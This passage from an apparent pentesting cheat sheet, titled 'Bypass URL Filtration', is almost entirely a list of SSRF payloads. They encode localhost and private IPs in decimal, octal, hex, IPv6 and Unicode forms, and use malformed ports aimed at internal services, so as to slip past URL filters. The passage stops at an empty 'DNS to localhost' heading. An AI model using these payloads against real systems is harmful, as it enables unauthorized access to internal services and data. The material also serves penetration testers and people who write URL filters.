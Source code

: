 # Bypass URL Filtration

## Localhost

```bash
# Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://127.000000000000000.1
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
```